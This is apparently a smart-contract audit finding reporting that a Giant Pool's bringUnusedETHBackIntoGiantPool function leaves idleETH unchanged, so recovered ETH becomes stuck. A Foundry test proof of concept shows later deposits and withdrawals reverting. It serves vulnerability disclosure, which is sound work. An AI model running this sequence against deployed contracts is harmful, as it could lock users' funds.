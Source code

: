 # Title 1: `BringUnusedETHBackIntoGiantPool` can cause stuck ether funds in Giant Pool

## Severity

High

## Impact

`withdrawUnusedETHToGiantPool` will withdraw any eth from the vault if staking has not commenced(knot status is `INITIALS_REGISTERED`), the eth will be drawn successful to the giant pool. However, idleETH variable is not updated. idleETH  is the available ETH for withdrawing and depositing eth for staking. Since there is no other places that updates idleETH other than depositing eth for staking and withdrawing eth, the eth withdrawn from the vault will be stuck forever.

## Proof of Concept

Place poc in `GiantPools.t.sol` with `import { MockStakingFundsVault } from "../../contracts/testing/liquid-staking/MockStakingFundsVault.sol"`;

```solidity
    function testStuckFundsInGiantMEV() public {
        stakingFundsVault = MockStakingFundsVault(payable(manager.stakingFundsVault()));
        address nodeRunner = accountOne; vm.deal(nodeRunner, 4 ether);
        //address feesAndMevUser = accountTwo; vm.deal(feesAndMevUser, 4 ether);
        //address savETHUser = accountThree; vm.deal(savETHUser, 24 ether);
        address victim = accountFour; vm.deal(victim, 1 ether);
        registerSingleBLSPubKey(nodeRunner, blsPubKeyOne, accountFour);
        emit log_address(address(giantFeesAndMevPool));
        vm.startPrank(victim);
        emit log_uint(victim.balance);
        giantFeesAndMevPool.depositETH{value: 1 ether}(1 ether);
        bytes[][] memory blsKeysForVaults = new bytes[][](1);
        blsKeysForVaults[0] = getBytesArrayFromBytes(blsPubKeyOne);
        uint256[][] memory stakeAmountsForVaults = new uint256[][](1);
        stakeAmountsForVaults[0] = getUint256ArrayFromValues(1 ether);
        giantFeesAndMevPool.batchDepositETHForStaking(getAddressArrayFromValues(address(stakingFundsVault)),getUint256ArrayFromValues(1 ether) , blsKeysForVaults, stakeAmountsForVaults);
        emit log_uint(victim.balance);
        vm.warp(block.timestamp + 60 minutes);
        LPToken lp = (stakingFundsVault.lpTokenForKnot(blsKeysForVaults[0][0]));
        LPToken [][] memory lpToken = new LPToken[][](1);
        LPToken[] memory temp  = new LPToken[](1);
        temp[0] = lp;
        lpToken[0] = temp;
        emit log_uint(address(giantFeesAndMevPool).balance);
        giantFeesAndMevPool.bringUnusedETHBackIntoGiantPool(getAddressArrayFromValues(address(stakingFundsVault)),lpToken, stakeAmountsForVaults);
        emit log_uint(address(giantFeesAndMevPool).balance);
        vm.expectRevert();
        giantFeesAndMevPool.batchDepositETHForStaking(getAddressArrayFromValues(address(stakingFundsVault)),getUint256ArrayFromValues(1 ether) , blsKeysForVaults, stakeAmountsForVaults);
        vm.expectRevert();
        giantSavETHPool.withdrawETH(1 ether);
        vm.stopPrank();
    }
```
Both withdrawing eth for user and depositing eth to stake fails and reverts as shown in the poc due to underflow in idleETH.
